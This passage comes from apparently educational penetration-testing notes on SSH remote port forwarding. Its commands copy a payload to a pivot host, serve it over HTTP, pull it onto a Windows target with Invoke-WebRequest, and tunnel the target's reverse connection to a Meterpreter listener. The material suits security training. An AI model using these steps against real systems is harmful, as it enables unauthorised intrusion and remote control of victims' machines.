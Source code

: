 Now send the file to the pivot host, for example with `scp`:
```console
zero@pio$ scp backupscript.exe ubuntu@<Interal IP of Pivot Host>:~/
```

Now send the the payload to the target machine. We can do it with a Python HTTP server:
```console
ubuntu@pivot$ python3 -m http.server <PORT>
```

We can download this **backupscript.exe** from the Windows host via a web browser or the PowerShell cmdlet `Invoke-WebRequest`:
```console
PS C:\>  Invoke-WebRequest -Uri "http://<Interal IP of Pivot Host>:<PORT>/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Now we can use the **SSH remote port forwarding** to forward our msfconsole's listener service on port 8000 to the Ubuntu server's port 8080:
```console
zero@pio$ ssh -R <Internal IP of Pivot Host>:8080:0.0.0.0:8000 ubuntu@<ip Address of Target> -vN
```

The flag `-vN` make it  verbose and ask it not to prompt the login shell. The `-R` ask the Ubuntu server to listen on `<Internal IP of Pivot Host>:8080` and forward all incoming connections on port **8080** to our msfconsole listener on `0.0.0.0:8000` of our **attack host**.

After creating the SSH remote port forward, we can execute the payload from the Windows target. If everything works, we can see the logs in the pivot machine, and the shell in the Meterpreter.

Our Meterpreter session should list that our incoming connection is from a local host itself (`127.0.0.1`) since we are receiving the connection over the local **SSH socket**, which created an **outbound** connection to the Ubuntu server. Issuing the netstat command can show us that the incoming connection is from the SSH service.

This will be the final output:

![Final Remote Port Forwarding](/assets/img/notes/system/44.png)
